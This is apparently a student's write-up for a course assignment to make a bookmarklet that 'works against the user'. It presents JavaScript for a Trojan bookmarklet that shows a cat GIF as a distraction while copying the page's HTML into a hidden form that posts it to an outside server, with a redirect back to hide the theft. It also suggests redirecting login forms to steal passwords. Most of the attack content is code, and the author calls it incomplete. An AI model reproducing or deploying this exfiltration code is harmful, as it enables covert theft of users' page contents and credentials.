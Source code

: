 # Assignment 2: Bookmarklet
Make a bookmarklet that works against the user.

I wanted to try creating a proof of concept for a malicious bookmarklet, that gathers up the data on the page and sends is to an external server.  I'll package it up with a cute distraction, to make it a very simple variation on the classic Trojan Horse (inspired by [Bonzi Buddy](http://malware.wikia.com/wiki/BonziBUDDY)) 

So our bookmarklet can start out by adding a cute cat gif to the page, "improving" the browsing experience.

The simplest way to do this would be

    $.post(externalUrl, $('body').html,
	     function(data){
		     alert("im in ur webnets, stealin ur data");
     });
But we'll quickly run into complications related to CORS which we can't easily solve.

Instead, I tried using a more traditional HTML form that POSTS to an external URL.

    $('body').append("<form id='evil' action='"+url+"' method='post'>
    <input name='bodyHtml' type='hidden' value='"+bodyHtml+"'>
    <input name='redirectUrl' type='hidden' value='testurl'>
    <input type='submit'>
    </form>");
The submit button is not really necessary but is useful for debugging.

This creates an HTML form with the current page's contents as a hidden input field. It also puts the current URL as one of the fields, so our malicious server knows where to send the user back to after ingesting the stolen data, so that the user may not even notice that they've left their intended page, visited a malicious server, and gone back to where they started. Because we're using a traditional HTML form, we will need to actually leave the current page when we POST the data. But we can cover that up easy enough by immediately redirecting the user back to the original page they were on.

After a delay, we can then submit the form

    $('#evil').submit();

 
This is not entirely functional yet, I think I am running into trouble with escaping quote characters when setting the form input to the bodyHtml. Need to play around with some regex to do this better.

       function injectJquery(callback) {
      if (window.jQuery) {
        return callback(window.jQuery);
      }
      let script = document.createElement('script');
      script.setAttribute(
        'src',
        '//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js'
      );
      script.onload = () => callback(window.jQuery);
      script.onerror = e => alert('The script failed to load: ' + e);
      document.head.appendChild(script);
    }
    
    var catGifs = ['http://www.catgifpage.com/gifs/325.gif','https://media.tenor.com/images/47b81948be5023555549c01d88ae3289/tenor.gif','https://memesbams.com/wp-content/uploads/2017/11/Hilarious-Cat-Gifs.gif']
    
    injectJquery(function($) {
      var catGif = catGifs[Math.floor(Math.random()*catGifs.length)];
      $('body').prepend("<img src='"+catGif+"'>");
      
      var url = "http://calebcalebcaleb.com/playback.php";
      // A good old fashioned Trojan Horse
      //Activating this bookmarklet will add a cute cat gif to the page. 
      //It will also exfiltrate the contents of the current page and send it to an external server.
      var bodyHtml = encodeURIComponent($('body').html());
      
      $('body').append("<form id='evil' action='"+url+"' method='POST'><input name='bodyHtml' type='hidden' value='"+bodyHtml+"'><input name='redirectUrl' type='hidden' value='"+url+"'><input type='submit'></form>");
      
    
      
      
    });

  
An alternative solution, similarly malicious but perhaps more elegant, would be to search for existing forms on the page (like a login form) and change its destination URL to a server I control. This would be less obtrusive/detectable for the user, and possibly be more efficient at swiping useful data (like passwords).

But I don't want to get too into making malicious software... the world doesn't need any more of that!
